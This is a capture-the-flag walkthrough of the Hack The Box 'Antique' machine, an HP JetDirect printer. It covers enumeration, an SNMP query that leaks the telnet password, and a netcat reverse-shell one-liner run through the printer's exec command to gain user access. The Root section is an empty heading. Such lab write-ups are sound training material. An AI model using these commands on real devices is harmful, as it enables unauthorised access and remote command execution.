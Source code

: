 # Antique
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following
```
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.91%I=7%D=10/7%Time=615EBCB8%P=x86_64-pc-linux-gnu%r(NULL
SF:,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetReq
SF:uest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x2
SF:0JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNS
SF:VersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatusR
SF:equestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20J
SF:etDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword:
SF:\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerbe
SF:ros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20J
SF:etDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswor
SF:d:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r
SF:(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDire
SF:ct\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\x
SF:20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalSe
SF:rver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDire
SF:ct\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x20
SF:")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,"
SF:\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirect
SF:\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20")
SF:%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20JetD
SF:irect\n\nPassword:\x20");
```
There is a running telnet service, if we do a banner grab using netcat, we can see:
```
[root@kali init-target (main ✗)]$ nc $TARGET 23                                          
HP JetDirect
```
As this is the only exposed service, we can start if there is any public exploit available using searchsploit
```
[root@kali htb-walkthroughs (main ✗)]$ searchsploit jetdirect                   
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
HP JetDirect FTP Print Server - 'RERT' Denial of Service                         | windows/dos/29787.py
HP JetDirect J3111A - Invalid FTP Command Denial of Service                      | hardware/dos/20090.txt
HP Jetdirect - Path Traversal Arbitrary Code Execution (Metasploit)              | unix/remote/45273.rb
HP JetDirect PJL - Interface Universal Directory Traversal (Metasploit)          | hardware/remote/17635.rb
HP JetDirect PJL - Query Execution (Metasploit)                                  | hardware/remote/17636.rb
HP JetDirect Printer - SNMP JetAdmin Device Password Disclosure                  | hardware/remote/22319.txt
HP JetDirect rev. G.08.x/rev. H.08.x/x.08.x/J3111A - LCD Display Modification    | hardware/remote/20565.c
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
Let's focus on HP Jetdirect - Path Traversal Arbitrary Code Execution (Metasploit) and Printer - SNMP JetAdmin Device Password Disclosure, let's mirror them both in the /exploit directory end examine them.

### HP Jetdirect - Path Traversal Arbitrary Code Execution (Metasploit) 
Examining the [exploit blog](https://www.tenable.com/blog/rooting-a-printer-from-security-bulletin-to-remote-code-execution and) seems like this exploit requires more open ports than one we have, lets check on metasploit.
```
msf6 exploit(linux/misc/hp_jetdirect_path_traversal) > show options

Module options (exploit/linux/misc/hp_jetdirect_path_traversal):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMUNITY  public           yes       SNMP Community String
   RETRIES    1                yes       SNMP Retries
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/w
                                         iki/Using-Metasploit
   RPORT      9100             yes       The target port (TCP)
   SNMPPORT   161              yes       The SNMP port
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an addres
                                         s on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>

```
We do not have any open port that responds to 9100 and 8080, so we should discard using this exploit as target is not exploitable.
 
### SNMP JetAdmin Device Password Disclosure
this exploit requires an open SNMP port, SNMP port is running on port 161 UDP, so we can scan for UDP ports using nmap.
```
Nmap scan report for 10.10.11.107
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT     STATE         SERVICE VERSION
161/udp  open          snmp    SNMPv1 server (public)
2002/udp open|filtered globe
```
SNMP port is open so we can try to exploit this.
Let's try a SNMP walk and then query for the OID specified in the vulnerability report.
```
[root@kali exploits ]$ snmpwalk -v 2c -c public $TARGET
iso.3.6.1.2.1 = STRING: "HTB Printer"
[root@kali exploits ]$ snmpwalk -v 2c -c public $TARGET .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
BITS array represent the hex encoded password, let's try do decode it!
```
[root@kali exploits ]$ echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xxd -r -p
P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i   IY�aA�"1&1A5#          
```
We got telnet passwor, so now we can login int telnet service gaining user access

## User
Now that we have the password for the telnet service we can login to the box, and run help

```
[root@kali ~ ]$ telnet $TARGET
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
``` 
as we can se, we can run system command using exec. So we can upload a reverse shell and gain access to the system,running:
```
> exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 4444 >/tmp/f
```
and here we obtain a shell ang user.txt

```
┌──(root💀kali)-[~]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.11.107] 33920
/bin/sh: 0: can't access tty; job control turned off
$ ls
telnet.py
user.txt
```

## Root
